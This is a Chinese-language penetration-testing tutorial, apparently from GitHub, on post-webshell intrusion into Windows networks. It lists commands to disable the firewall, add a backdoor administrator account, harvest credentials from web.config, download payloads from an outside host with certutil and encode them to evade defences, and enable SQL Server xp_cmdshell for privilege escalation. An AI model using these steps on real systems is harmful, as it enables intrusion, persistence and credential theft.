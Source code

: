 # 内网渗透
## 渗透测试的流程
在对内网进行渗透测试前，我们需要获取权限，依次为后台权限=》webshell权限=》服务器权限；大多数情况下是获取到webshell权限，随后再进行提权操作获取服务器权限。
## webshell
#### webshell的定义：对web应用中的文件拥有增删改查的功能。
#### webshell权限
webshell的权限根据不同的系统有的不同的权限，有的时候是系统权限，有的时候是管理员权限，有的时候是普通用户权限。
- Windows
1. system         系统权限      （system权限是最高权限）
2. Administrator  管理员权限
3. user           普通权限
- Linux
1. root           管理员权限
2. user           普通权限

##### 内网需要对计算机不同的系统有着一定的操作能力。
## Windows系统基础篇
- 在Windows服务器中默认只允许拥有管理员权限的用户才能远程登陆服务器中。
- Windows的服务器系统版本（win2000,win2003,win2008,win2012,win2016,win2019,win2022）,都有共同的默认账号administrator和guest，且guest账号默认是禁用的。
- Windows默认远程控制（RDP）端口为3389，服务（TermService）
#### 如何通过命令行锁定端口号
有的时候远程的端口会被管理员修改，我们可以通过命令行来对端口进行锁定，步骤如下：
1. 使用`tasklist /svc`找到TermService服务对应的PID号
2. `netstat -ano`找到对应PID开放的端口号

#### 连接不上3389端口的原因
- 对方服务器只映射了web端口到外网，未映射3389端口到外网，所以外网无法直接访问内网的3389，导致无法连接；可通过ipconfig查看系统是公网IP还是公网IP。
- 服务器自身的系统防火墙入网规则未允许3389入网请求。解决方法：使用dos命令关闭防火墙，简单暴力。

## doc命令篇
```
netsh firewall set opmode disable 关闭防火墙
netsh firewall set opmode mode=enable 开启防火墙
whoami /priv  查看当前权限列表
net user 查看用户列表
net user aaa 查看用户aaa
net user aaa 123  修改用户aaa密码为123
net user aaa /del 删除用户aaa
net user aaa 123 /add 添加用户aaa并且密码为123
net user aaa /active:yes  激活用户aaa
net user aaa /active:no   禁用用户aaa
net localgroup Administrators aaa /add 用户aaa添加到管理员组
net localgroup Administrators aaa /del 将用户aaa从管理员组移除
net localgroup Administrators  查看管理员组有哪些用户
tasklist /svc 查看进程所对应的服务名和PID
tasklist /v 查看进程对应启动的用户名
netstat -ano 查看开放的端口
```
## 拿到webshell后如何进行信息收集
常见的连接webshell的工具，如：
1. 冰蝎
2. 蚁剑
3. 菜刀
4. 哥斯拉（推荐）https://github.com/808Mak1r/GodzillaSource

连接好webshell后收集数据库信息，然后连接数据库。Windows上搭建的服务器可以查看web.config，当此文件没有我们要的信息时，也可以查看其他带有.config的文件，尽量收集更多的信息。

- web.config可能收集到的信息
1. 数据库连接信息
2. 邮件连接信息
3. 域控管理员连接信息
4. 后台账号密码
5. 短信发送平台连接信息
6. API接口平台

## Windows上下载文件到服务器有哪些方法？
- certutil命令(该命令在win2000上不支持)
`certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx`
##### 此命令的其他功能
```
certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx C:\Windows\Temp\1.aspx 下载文件到制定路径下

certutil 还可以进行base64编码，可通过此防范绕过防火墙，步骤如下

首先先将文件进行编码 certutil -encode 1.aspx 1.txt,这样我们就将1.aspx进行了base64编码并存储到了1.txt文件中，随后我们在解码，certutil -decode 1.txt 2.aspx,将编码后的文件再解码，就可以执行文件了。


```

## 权限提升
权限提升分为两类，一类是系统漏洞提权，一类是不正确配置提权，也称第三方提权（sql server提权）。
- sql server 提权操作
```
第一种
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go

第二种

sp_configure 'show advanced options',1
RECONFIGURE WITH OVERRIDE
go
sp_configure 'xp_cmdshell',1
RECONFIGURE WITH OVERRIDE
go




```










